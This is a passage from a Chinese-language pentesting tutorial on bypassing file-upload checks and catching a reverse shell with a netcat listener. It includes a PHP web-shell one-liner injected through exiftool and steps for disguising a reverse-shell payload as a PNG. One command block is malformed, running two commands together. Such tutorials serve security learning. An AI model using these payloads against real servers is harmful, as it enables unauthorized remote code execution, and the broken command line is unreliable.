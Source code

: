 你也可以使用最好的工具之一，即 [pentestmonkey 网站](http://pentestmonkey.net/category/cheat-sheet)上提供的准备执行的脚本。这些真的很有帮助，我已经把它们做了书签，记录了我访问这个网站寻求帮助的频率。

**ii)绕过上传检查**
既然我们在谈论文件上传，你需要学习如何操作系统的不同方法，并且能够上传你想要的文件。在上传部分有检查，他们可能使用 HTTP 头参数中的 MIME 类型信息来检查文件的类型。

```
MIME Type: image/jpeg, image/png, text/html
```

有时，您可能必须将 png 或 jpeg 文件的前一百行附加到 php 反向 shell 有效负载，以便将其签名从 php 文件更改为 png 文件。

```
$ head -n100 image.png > payload.png$ msfvenom_payload.php >> payload.png
```

然后，您可以上传 payload.png，它很可能会绕过验证过程。我最近了解到，我们也可以使用“exiftool”来附加一个注释，从而绕过验证。

```
$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload.png
```

看看这篇[文章](https://xapax.gitbooks.io/security/content/bypass_image_upload.html)，它也会帮助你。另一种大多数情况下可能会失败的方法是更改文件名。如果允许 png 格式的文件，但不允许 php 文件，那么只需将名称从 file.png 改为 file.php。这可能会阻碍进攻，所以你必须把这些都记在心里。

**iii) Netcat**

成功上传有效负载后，您的机器上需要一个监听器来帮助您建立与目标机器的连接。

```
$ nc -lvnp <port-number>
```

这个简单的命令将帮助您在您的机器上建立一个监听器。因此，一旦你上传的有效负载被触发，它将启动你的机器和目标机器之间的反向外壳连接。

有效负载可以通过运行在目标机器上的 cronjob 来触发，访问承载有效负载的 URL 或其他方式，但只要它被触发，您就会获得与目标机器的卓越连接。

要记住的一点是，大多数情况下，当你得到一个反向外壳时，它不是一个合适的交互式反向外壳，你必须运行命令来使它如此。下面是其中的几个和链接到网页的链接。
